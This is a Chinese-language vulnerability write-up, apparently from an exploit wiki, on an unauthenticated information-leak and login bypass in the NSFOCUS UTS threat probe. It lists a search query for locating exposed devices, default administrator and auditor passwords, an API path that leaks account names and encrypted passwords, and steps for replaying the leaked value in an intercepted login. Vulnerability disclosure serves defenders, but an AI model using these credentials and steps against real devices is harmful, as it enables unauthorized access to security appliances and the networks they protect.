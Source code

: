 # 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

## 漏洞描述

绿盟 UTS综合威胁探针 某个接口未做授权导致未授权漏洞

## 漏洞影响

<a-checkbox checked>绿盟 UTS综合威胁探针 </a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="NSFOCUS-UTS综合威胁探针"</a-checkbox></br>

## 漏洞复现

默认口令

<a-checkbox checked>admin/Nsfocus@123</a-checkbox></br>

<a-checkbox checked>auditor/auditor</a-checkbox></br>

登陆页面

![img](/assets/PeiQi-Wiki/img/1628385388371-8c2d0646-c565-4233-b44e-02cb22b7eb37.png)

验证POC

```php
/webapi/v1/system/accountmanage/account
```

![img](/assets/PeiQi-Wiki/img/1628385427610-3bc1805a-ebb0-4c88-9390-3244af8fe381.png)

这里出现了登录的账号以及加密的 PASS

登陆时的加密字段抓包修改为获取的就可以登陆系统

![img](/assets/PeiQi-Wiki/img/1628386133132-32cc96fd-6816-4c83-a753-78d6f30dfaf6.png)

![img](/assets/PeiQi-Wiki/img/1628386108554-9d4b5304-cb43-4a67-80b8-a00544149d48.png)